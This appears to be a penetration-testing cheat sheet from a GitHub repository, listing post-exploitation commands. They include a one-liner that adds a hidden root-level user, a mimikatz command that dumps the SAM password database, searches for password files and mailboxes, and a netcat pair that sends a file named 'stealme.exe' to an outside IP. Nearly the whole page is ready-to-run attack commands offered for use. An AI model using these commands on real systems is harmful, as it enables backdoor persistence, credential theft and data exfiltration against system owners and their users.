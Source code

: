 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/5_effect.md">Top of Page</a> |
  <a href="/CheatSheets/5_effect.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Effect
* [One-liner: useradd and chpasswd](#one-liner-useradd-and-chpasswd)
* [Dump Passwords](#dump-passwords)
* [Find Password Files](#find-password-files)
* [Find Emailboxes](#find-emailboxes)
* [Get Network Connections](#get-network-connections)
* [Exfil via Netcat](#exfil-via-netcat)

## One-liner: useradd and chpasswd
```bash
useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 victor
```

## Dump Passwords
```bash
mimikatz.exe "lsadump::sam"
```

## Find Password Files
```bash
findstr /si password *.xml *.ini *.txt (Find passwords)
```

## Find Emailboxes
```bash
dir *.dbx /s 
```

## Get Network Connections
```bash
# all connections, no name resolution, and print owning PID 
netstat -ano 

# print filepath of each network-connected binary
(Get-NetTcpConnection).OwningProcess | ForEach-Object { Get-Process -Id $_ | Select-Object -ExpandProperty Path } | Sort-Object | Get-Unique
```

## Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/5_effect.md">Top of Page</a> |
  <a href="/CheatSheets/5_effect.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
